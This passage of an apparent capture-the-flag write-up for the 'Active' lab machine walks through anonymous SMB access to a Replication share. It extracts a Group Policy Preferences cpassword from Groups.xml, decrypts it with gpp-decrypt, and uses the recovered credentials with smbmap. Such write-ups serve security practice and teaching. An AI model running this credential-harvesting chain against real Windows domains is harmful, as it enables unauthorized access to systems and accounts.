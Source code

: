 They're 7 shares available and ==Replication== is the only one we have access to

### Connecting to the Replication Share

**Command**
```
smbclient //10.10.10.100/Replication
```

- Anonymous access is allowed
- Found two files: GptTmpl.inf in
```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit
```

- And Groups.xml in
```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\>
```

In the Groups.xml file I see fields for "newName", "fullName" are empty but cpassword and username are present
```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

**Username**
```
SVC_TGS
```

**Encrypted Password**
```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

**Decrypt GPP Password**
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

```
GPPstillStandingStrong2k18
```


### User Flag

With the username and decrypted password, access the smb shares
```python3
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```
